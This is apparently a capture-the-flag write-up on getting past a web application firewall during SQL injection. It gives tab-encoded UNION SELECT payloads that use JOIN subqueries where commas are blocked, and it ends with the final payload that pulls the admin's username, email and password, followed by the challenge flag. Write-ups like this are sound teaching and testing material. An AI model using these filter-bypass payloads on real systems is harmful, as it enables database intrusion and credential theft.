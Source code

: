 ```yaml
---
layout: default
title: SQL-Injection-Filter-bypass
---
```


As you can see, when giving this payload:
```
?action=members&id=2-1
```
We get `id=1`, so it means there is a basic SQL injection here.
However, when trying to use this vulnerability for an exploit, we face fences of `WAF`, and we hate `WAF`.
![basic Sqli](./images/SQL-Injection-Filter-bypass_basic_sqli.png)

I can see i can't use ` `, however i can use `\t`, which is `%09`.

We know the structure is:
```sql
CREATE TABLE IF NOT EXISTS `membres` (
   `id` int(1) NOT NULL AUTO_INCREMENT,
   `username` VARCHAR(5) NOT NULL,
   `pass` VARCHAR(20) NOT NULL,
   `email` VARCHAR( 50 ) NOT NULL,
   PRIMARY KEY (`id`)
 ) ENGINE=MyISAM  DEFAULT CHARSET=latin1 AUTO_INCREMENT=2 ;
```

In addition, the query that's being executed is:
```sql
SELECT * from membres where id={input}
```

So, what'll happen if we inject something like this:
```sql
5 UNION select 1,2,3,4
```

In this case, the results should be `1,2,3,4`, because there is no such user which its id is `5`.

However, the WAF blocks `,`... Of course, so we can try it with `JOIN`.

Here is an example of how it should look, we give this subquery:
```sql
UNION SELECT * FROM (
    (SELECT 1) as t1 JOIN 
    (SELECT 2) as t2 JOIN 
    (SELECT 3) as t3 JOIN 
    (SELECT 4) as t4
) LIMIT 1
```
![join is working](./images/SQL-Injection-Filter-bypass_JOIN_WORKING.png)

Let's try it in our case, this will be the payload:
```
4 UNION SELECT * FROM ((SELECT 1) as t1 JOIN (SELECT 2) as t2 JOIN (SELECT 3) as t3 JOIN (SELECT 4) as t4 ) LIMIT 1
```
of course we need to replace all ` ` with `%09`
```
4%09UNION%09SELECT%09*%09FROM%09((SELECT%091)%09as%09t1%09JOIN%09(SELECT%092)%09as%09t2%09JOIN%09(SELECT%093)%09as%09t3%09JOIN%09(SELECT%094)%09as%09t4%09)%09LIMIT%091
```

And we got this:
```
ID : 1
Username : 2
Email : 4
```

![join poc](./images/SQL-Injection-Filter-bypass_join_poc.png)

Okay, now we just need to exfiltrate the password of the first user, which is `admin`.
```sql
UNION SELECT * FROM (
    (SELECT username FROM membres LIMIT 1) as t1 JOIN 
    (SELECT email FROM membres LIMIT 1) as t2 JOIN 
    (SELECT 3) as t3 JOIN 
    (SELECT pass FROM membres LIMIT 1) as t4
) LIMIT 1
```

Let's try it in our case, this will be the payload:
```
4 UNION SELECT * FROM ((SELECT username FROM membres LIMIT 1) as t1 JOIN (SELECT email FROM membres LIMIT 1) as t2 JOIN (SELECT 3) as t3 JOIN (SELECT pass FROM membres LIMIT 1) as t4 ) LIMIT 1
```
of course we need to replace all ` ` with `%09`
```
4%09UNION%09SELECT%09*%09FROM%09((SELECT%09username%09FROM%09membres%09LIMIT%091)%09as%09t1%09JOIN%09(SELECT%09email%09FROM%09membres%09LIMIT%091)%09as%09t2%09JOIN%09(SELECT%093)%09as%09t3%09JOIN%09(SELECT%09pass%09FROM%09membres%09LIMIT%091)%09as%09t4%09)%09LIMIT%091
```
![FINAL](./images/SQL-Injection-Filter-bypass_FINAL.png)

GG! :)

**Flag:** **_`KLfgyTIJbdhursqli`_**